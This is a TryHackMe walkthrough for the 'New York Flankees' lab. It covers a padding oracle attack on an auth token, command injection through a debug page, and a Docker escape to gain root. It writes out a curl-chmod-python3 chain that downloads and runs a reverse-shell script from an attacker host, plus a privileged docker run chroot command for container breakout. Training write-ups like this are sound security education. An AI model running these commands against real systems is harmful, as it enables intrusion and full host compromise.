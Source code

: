 ##TryHackMe - New York Flankees Walkthrough

`https://tryhackme.com/room/thenewyorkflankees`

#Introduction :

This is a walkthrough for the TryHackMe room *New York Flankees*, which focuses on exploiting a web app via padding oracle, gaining reverse shell access to a Docker container, and escalating to root on the host using Docker misconfigurations.

#🔍Reconnaissance  

Start with an Nmap scan:  
nmap -sC -sV -p- -T4 <ip> -Pn  

![alt text](Walk/Screenshot_2025-06-24_07_07_56.png)  

Nmap ResultGot 2 Ports Open 22 & 8080. Let's visit the site to find any entry point into the system.

On the website, in the *Stefan Test* Menu it shows an error related to padding.

![padding](Walk/Screenshot_2025-06-24_06_54_48.png)  

Visit the source code where you will find javascript code related to authentication using token.  

![srccode](Walk/Screenshot_2025-06-24_07_00_16.png)

If you manually try to go to /api/debug/ with the Encrypted String "/39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4" , it will print "Custom authentication Success" and if you give wrong token it print "Decryption Error".

So the Backend is Decrypting the String and authenticating the user. May be the Encrypted String Contain Username and Password of the user. And also now we know there is padding error. So lets try to decrypt the string using padding oracle attack.

For this we will use a Github Tool *Padre*  
`https://github.com/glebarez/padre`

![padre](Walk/Screenshot_2025-06-24_07_10_53.png)  

This Tool will Crack the Encryption String for you and will provide username and password. -> Flag 1


#Flag 2

Try to login to the Site, Now will see a new Menu *Debug*, were you will get your -> Flag 2


#Flag 3

Now there is option to execute System commands directly. I tried to upload a python shell there using Burp Suite.  

![shell](Walk/Screenshot_2025-06-24_07_22_11.png)  

Simple Python PayloadI used a Extensions "Agartha" in Burp Suite which generate many payload for command execution if want to bypass the filters.

![agartha](Walk/Screenshot_2025-06-24_07_22_29.png)  

Because i have community version of Burp Suite, I used Turbo Intruder(extension in burp suite) to brute force all the payload generated by Agartha. 
I generated payload for following 3 command in Agartha :

```curl http://<ip>/python-exploit.py -o /tmp/python-expliot.py```  
```chmod +x /tmp/python-expliot.py```  
```python3 /tmp/python-expliot.py```  

After Executing the Payload I Got a Reverse shell, where you can see a .dockerenv file is present which suggest that it is a container.  
![revshell](Walk/Screenshot_2025-06-24_07_33_24.png)  

Let's go for third flag which is in the container, For that can go in the app Directory and search there you will find the -> Flag 3


#Final Flag

So, Now Final Flag. Because it is a docker container lets use a docker enumeration tool called deepce.

`https://github.com/stealthcopter/deepce`

Downloads this tool in the lab and execute the tool.  
It's output's will say that docker sock is writable -> Search for it on Hacktricks.

`https://hacktricks.boitatech.com.br/linux-unix/privilege-escalation/docker-breakout`  

Read it carefully. Now, Search for docker images in lab  
```docker images```

Use one of the image id of one of the docker images for the next command to be run:

```docker run - privileged -it -v /:/mnt/ d5954e1d9fa4 chroot /mnt/ bash```

You Got a root access to the Container. Got -> Flag 4


#✅ Conclusion

This room gave solid experience with container breakout techniques and web vulnerabilities.  
Thanks for reading! Let me know if you have questions!

TryHackMe Profile : https://tryhackme.com/p/Sumit003  
LinkedIn : https://www.linkedin.com/in/sumitmaurya03/

tryhackme, cybersecurity, docker, infosec, ethical-hacking, walkthrough